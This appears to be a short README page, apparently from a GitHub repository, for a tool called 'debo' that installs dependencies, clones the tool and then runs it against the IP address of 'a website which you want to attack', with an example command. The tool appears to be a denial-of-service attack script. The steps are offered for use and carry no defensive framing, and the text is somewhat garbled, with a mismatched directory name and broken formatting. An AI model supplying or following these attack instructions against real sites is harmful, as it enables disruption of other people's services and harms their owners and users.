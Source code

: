 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/abdelfatah-kfs/DD-Tool-v1.0.git
debo need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd debo<br>
$ python debo.py -s [ip Address] -t 135<br>
example:<br>
$ python debo.py -s 123.45.67.89 -t 135<br>

